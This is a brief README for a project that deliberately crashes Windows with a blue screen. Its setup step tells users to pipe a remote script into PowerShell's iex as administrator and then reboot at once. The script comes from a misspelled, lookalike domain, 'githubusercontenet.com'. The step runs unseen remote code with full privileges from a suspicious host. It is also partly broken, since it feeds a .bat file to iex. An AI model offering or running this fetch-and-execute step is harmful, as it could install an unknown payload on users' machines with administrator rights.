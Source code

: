 # simpleWinBSOD
A simple setup for making Windows BSOD intentionally.

## to enable
open powershell as admin and run
```powershell
iwr "raw.githubusercontenet.com/ApplePair111/simpleWinBSOD/main/Main.bat" | iex
shutdown /r /t 0
```
## to bsod
while pressing ctrl, double press scroll lock. It will bsod
